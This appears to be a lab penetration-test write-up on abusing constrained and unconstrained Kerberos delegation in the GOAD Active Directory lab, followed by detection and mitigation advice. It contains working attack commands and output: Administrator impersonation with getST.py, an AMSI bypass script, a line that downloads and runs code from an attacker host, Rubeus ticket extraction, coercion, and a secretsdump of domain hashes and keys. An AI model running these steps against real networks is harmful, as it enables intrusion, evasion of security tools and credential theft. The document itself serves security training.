




# Kerberos Delegation Assessment

## Objective

This phase assessed whether delegation setttings in the GOAD environment alowed one account or computer to impersonate users to other services.

## #Starting position

- Valid domain credentials from earlier phases
- Administrative access in the child domain
- Visibility into domain account and computer attributes

## Delegation enumeration

Impacket's `findDelegation.py` was used to identify configured delegation relationships.

The relevant results included:

```text
jon.snow        Constrained with protocol transition    CIFS/winterfell
CASTELBLACK$    Constrained                             HTTP/winterfell
WINTERFELL$     Unconstrained delegation
```

## Constrained delegation

### Security condition

`jon.snow` was configured for constrained delegation with protocol transition to the CIFS service on `WINTERFELL`.

Protocol transition meant the service could request a Kerberos service ticket on behalf of a user even when that tuser had not originally authenticated with Kerberos.

### Execution

Impacket's `getST.py` was usede to request a ticket while impersonatting the domain Administrator:

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '10.4.10.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
/home/kali/.local/bin/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/home/kali/.local/bin/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

The resulting cache was loaded:

```bash
export KRB5CCNAME="$(pwd)/Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache"
```

Kerberos-authenticated remotet access then confirmed the eimpersonated identity:

```bash
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
north\administrator
```

### Impact

Compromise of the delegating account allowed impersonation of a privileged user to an authorised target service. The scope was limited by the configured SPN, but CIFS access on a domain controller was sufficient for major impact.

## Unconstrained delegation

### Security condition

When a user or computer authenticated to `WINTERFELL`, reusable TGT material could become available to the delegated host.

### Execution summary

The original assessment:

1. Established an administrative session on `WINTERFELL`
2. Monitored Kerberos tickets on the host
3. Coerced `KINGSLANDING` to authenticate to `WINTERFELL`
4. Observed and extracted the `KINGSLANDING$` TGT
5. Converted the ticket to a credential cache
6. Used the ticket to authenticate to the parent domain controller
7. Successfully extracted parent-domain credential material.

#### Steps

Get an RDP connection on `WINTERFELL`:

```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor! /v:10.4.10.11 /cert-ignore
```

In the attacker machine, prepare a folder with `Rubeus.exe` and AMSI (Anti-malware Scan Interface) bypass.

**Rubeus:**
```bash
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

**ANSI bypass:**
```bash
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Start a python server `python3 -m http.server 8080`, and use the AMSI bypass in the rdp session:

```bash
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)

(new-object system.net.webclient).downloadstring('http://10.4.10.99:8080/amsi_rmouse.txt')|IEX
```

In order to avoid the possibility of being detected by antivirus or any endpoint detection tools, let's execute Rubeus from memory, instead of writing the executable file to disk.

And then see the available tickets:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.4.10.99:8080/Rubeus.exe')

$assem = [System.Reflection.Assembly]::Load($data);

[Rubeus.Program]::MainString("triage");
```



Now, force a coerce of the `KINGSLANDING` to the `WINTERFELL`:

```bash
coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell
```



And, now in the triage `[Rubeus.Program]::MainString("triage")` we see the `krbtgt` service efrom `KINGSLANDING`:



Now, relaunch the coercer, do the same steps, and run the `dump` commant in `Rubeus` to extract the tgt:

```powershell
[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");
```



This is saved to the attacker machine, and since the ticket is base64 encoded, decode it and save it to a `kirbi` file.

```bash
base64 -d tgt.txt > ticket.kirbi
```

Then convert it to `ccache` file by using the `ticketconverter.py`:

```bash
ticketconverter.py ticket.kirbi ticket.ccache

export KRB5CCNAME=/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache
```

Now, we see that the ticket is in the `klist`:

```bash
Ticket cache: FILE:/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache
Default principal: KINGSLANDING$@SEVENKINGDOMS.LOCAL

Valid starting       Expires              Service principal
01/13/2025 14:13:48  01/14/2025 00:13:48  krbtgt/SEVENKINGDOMS.LOCAL@SEVENKINGDOMS.LOCAL
	renew until 01/17/2025 19:38:50
  ```

  Now, `secretsdump.py` is used:

  ```bash
  secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$@KINGSLANDING

  [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c3a2910c238cb5a530b8b5369a6cf1e:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:266a819ccba54527708c65febab712ad:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:ac819f7c593d51f56b614f3dcc10f193:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:52bac9dd1cab3cdb208d7347118690d9:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5ca87118dd89b088de54fb17b009eccadacf97c564e4112a8d0958f9c929165d
Administrator:aes128-cts-hmac-sha1-96:961cd2fe40742376597e986a969ef586
Administrator:des-cbc-md5:b392b0ba3e3e1925
krbtgt:aes256-cts-hmac-sha1-96:f353b3ba6b9bdbe7b0917a4a73b8250f1938c568798a5a3307bf717fe713a48f
krbtgt:aes128-cts-hmac-sha1-96:6f531a15aa3dbd348c5bfbafdfa68124
krbtgt:des-cbc-md5:1f1aad648c3479c8
localuser:aes256-cts-hmac-sha1-96:96286517ab35191f2184b009d2c1347ea40c2aa6696428df79bcc5b0f4e8514c
localuser:aes128-cts-hmac-sha1-96:531c3e0f768242e32d8ba911abe36fc5
localuser:des-cbc-md5:ab1cefe994f7b5a8
tywin.lannister:aes256-cts-hmac-sha1-96:6d700f4ade8a38d18bdd4f149aab963dfd0dce88a66240abdbdcb9044677fb80
tywin.lannister:aes128-cts-hmac-sha1-96:e813c0778e005572a1bef0c1a5337b76
tywin.lannister:des-cbc-md5:8f2594dada98862a
jaime.lannister:aes256-cts-hmac-sha1-96:1ed5f614b71e193bba93dc07e14c1c445a27ff1a6b0f265e98b45b10f6940ba7
jaime.lannister:aes128-cts-hmac-sha1-96:d7befe9d0dbb7a6d925156d5642ba57f
jaime.lannister:des-cbc-md5:ec51389dd6b67076
cersei.lannister:aes256-cts-hmac-sha1-96:0cbbc101644c0d73d9155b71172c811d41a3a640fea655b1fd6d6a22fd53ca59
cersei.lannister:aes128-cts-hmac-sha1-96:9c22476a9d1c88b472a7567a4380e502
cersei.lannister:des-cbc-md5:10c7a8a2b3643468
tyron.lannister:aes256-cts-hmac-sha1-96:ee2568536d09581b7b5e30b707e58d27e2cf5ee7acfc90dce4de852e44c5633c
tyron.lannister:aes128-cts-hmac-sha1-96:9b7f0a412e6219a1b48b8fb12ff2d499
tyron.lannister:des-cbc-md5:013d7091a470c719
robert.baratheon:aes256-cts-hmac-sha1-96:6b5468ea3a7f5cac5e2f580ba6ab975ce452833e9215fa002ea8405f88e5294d
robert.baratheon:aes128-cts-hmac-sha1-96:4f12248736038b239853bcf1d4abad94
robert.baratheon:des-cbc-md5:49762afd1f38abf1
joffrey.baratheon:aes256-cts-hmac-sha1-96:a008819500909ab61b76564b0d81cf4f7cb1bd7f213206e25df681f92792aa8c
joffrey.baratheon:aes128-cts-hmac-sha1-96:504c606625e04cd3b61107b8a29fdd4d
joffrey.baratheon:des-cbc-md5:fbc262e5efa1160e
renly.baratheon:aes256-cts-hmac-sha1-96:9a71ce0dcb412d20641d5075513644255f08b2a9767b5e79f487e5103cc55385
renly.baratheon:aes128-cts-hmac-sha1-96:ed5fe1af8432bcc33921aa1ac4d8c071
renly.baratheon:des-cbc-md5:519b98239223cb07
stannis.baratheon:aes256-cts-hmac-sha1-96:01c636e600ae2cfb05695b13ff1e906662941de94323233580f369f16e2b295a
stannis.baratheon:aes128-cts-hmac-sha1-96:c6224aebad6b49e083bc70d99f02f612
stannis.baratheon:des-cbc-md5:370d626ea886aefe
petyer.baelish:aes256-cts-hmac-sha1-96:6e0ef6e1793e4ac90dc1afa073ddfd46fc117308d0f0b4cae68dd370cf7439c3
petyer.baelish:aes128-cts-hmac-sha1-96:6fcbd3ff8b3111772644a8d0912ac744
petyer.baelish:des-cbc-md5:73a867cbe910a78a
lord.varys:aes256-cts-hmac-sha1-96:50ab31c625a3544d17d0dd20ae6f3d1c195c846faca9ce187073fd886d2d8206
lord.varys:aes128-cts-hmac-sha1-96:a4607553a99e2ff4fa1bcb98b0020661
lord.varys:des-cbc-md5:349173d05e6d9bc1
maester.pycelle:aes256-cts-hmac-sha1-96:25370ba431b262bdf7ca279e88d824cd59b4ce280bbef537a96fe51c8d790042
maester.pycelle:aes128-cts-hmac-sha1-96:7d375f265062643302a4827719ea541d
maester.pycelle:des-cbc-md5:89379167f87f0b5b
KINGSLANDING$:aes256-cts-hmac-sha1-96:31c26f3811b55f25733ba86d5ef8bb69fc7996f63da0a71f701f9cf8c84fb70e
KINGSLANDING$:aes128-cts-hmac-sha1-96:b3e762fa06f11c8a40f21c2584bd15cf<
KINGSLANDING$:des-cbc-md5:cd85b03b15fe7061
NORTH$:aes256-cts-hmac-sha1-96:9ea07688172b2ae6735381e5d800db6848b546d5536cb143b4edaed345ffb134
NORTH$:aes128-cts-hmac-sha1-96:843a818914a31220de10a02783b4f20a
NORTH$:des-cbc-md5:da29856baef80edc
ESSOS$:aes256-cts-hmac-sha1-96:e4bb187a355df477fad9870225ffe8ce5a98fdbbc1250396a519a4da12e1d211
ESSOS$:aes128-cts-hmac-sha1-96:9d84f46f723aaec1ecd483482d6d5de0
ESSOS$:des-cbc-md5:2f52158916f43d4f
```

## Impact

Unconstrained delegation on a high-value server allowed authentication from a parent-domain controller to expose a reusable TGT. That transformed control of hte delegated child-domain host into parent-domain compromise.

## Resource-based constrained delegation

- I classic constrained delegation, the delegating account stores the list of services it may access on behalf of users.
- In RBCD, the target resource stores the principals that are allowed to act on behalf of users.

## Result

- Constrained delegation was succesfully used to impersonate to CIFS on `WINTERFELL`
- Unconstrained delegation was successfully used to capture a parent-domain controller TGT and compromise the parent domain

## Detection opportunities

- Changes to `msDS-AllowedToDelegateTo` or `msDS-AllowedToActOBehalfOfOtherIdentity`
- Accounts configured with `TRUSTED_TO_AUTH_FOR_DELEGATION`
- Servers configured for unconstrained delegation
- S4U2Self and S4U2Proxy ticket activity involving privileged users
- Domain controllers authenticating to systems where that behavior is unusual
- Privileged service tickets from hosts that are not normal administrative systems

## Mitigation

- Remove unconstrained delegation wherever possible
- Mark privileged accounts as sensitive adn not delegable
- Use the Protected Users group where operationally appropriate
- Restrict constrained delegation to the minimum necessary SPNs
- Audit RBCD attributes and machine-account creation rights
- Prevent coercion paths and reduce xposed authentication protocols
- Monitor delegation-attribute change and privileged S4U activity

## MITRE ATT&CK mapping

- `T1550.003` - Pass the Ticket
- `T1134.001` - Token Impersonation/Theft context
- `T1558` - Steal or Forge Kerberos tickets

## Key takeaway

Delegation is intended to let services act for users, but it also creates powerful trust relationships. In this lab, constrained delegation enabled targeted Administrator impersonation, while unconstrained delegation crossed the forest hierarchy and produced the confirmed parent-domain compromise.

## Navigation

[Previous: AD CS](06-adcs/README.md) | [Assessment index](../README.md) | [Next: Command and control with Sliver](08-sliver/README.md)

